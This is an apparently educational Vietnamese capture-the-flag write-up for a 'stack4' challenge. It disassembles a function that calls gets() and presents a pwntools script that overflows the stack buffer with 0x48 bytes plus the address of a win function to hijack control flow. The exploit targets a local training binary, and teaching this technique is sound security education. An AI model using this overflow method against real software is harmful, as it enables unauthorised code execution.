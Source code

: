 
Như code C thì chúng ta chỉ thấy mỗi hàm gets(buffer), vậy thì nói 1 chút về cái flow của chương trình này nhé, để cho dễ thì chúng ta sẽ phân tích mã ASM :

```
   0x0000000000400577 <+0>:	push   rbp
   0x0000000000400578 <+1>:	mov    rbp,rsp
   0x000000000040057b <+4>:	sub    rsp,0x50
   0x000000000040057f <+8>:	mov    DWORD PTR [rbp-0x44],edi
   0x0000000000400582 <+11>:	mov    QWORD PTR [rbp-0x50],rsi
   0x0000000000400586 <+15>:	lea    rax,[rbp-0x40]
   0x000000000040058a <+19>:	mov    rdi,rax
   0x000000000040058d <+22>:	mov    eax,0x0
   0x0000000000400592 <+27>:	call   0x400450 <gets@plt>
   0x0000000000400597 <+32>:	mov    eax,0x0
   0x000000000040059c <+37>:	leave  
   0x000000000040059d <+38>:	ret    
```

Như chúng ta thấy, sau hàm get thì chúng ta sẽ có lần lượt các hàm có công dụng là trả về 0 cho eax, leave sẽ khôi phục lại stack trước khi thực thi hàm này, cụ thể là trả về giá trị cũ về rbp và rsp sau đó ret sẽ nhảy về địa chỉ trên đỉnh stack!

Điều đó có nghĩa là chúng ta sẽ cần đến 0x40 bytes để đè hết buffer, 0x8 bytes để đè old ebp ( cần 0x8 bytes bởi vì 64bit, 0x4 bytes với 32 bit), tiếp theo là địa chỉ hàm win, hàm mà chúng ta sẽ nhảy về!

Dựa vào đó chúng ta có exploit như sau !

```
from pwn import *

BIN = "./stack4"
DEBUG = 1

win = 0x400566

def exploit():

  payload = b"A"*0x48 + p64(win)
  
  _breakpoint = """
      b *0x0000000000400592
  """
  gdb.attach(io, _breakpoint)
  io.sendline(payload)
  io.recv()
  io.interactive()


io = process(BIN)
context.log_level='debug'
exploit()
```
Flow của chương trình đã bị thay đổi !
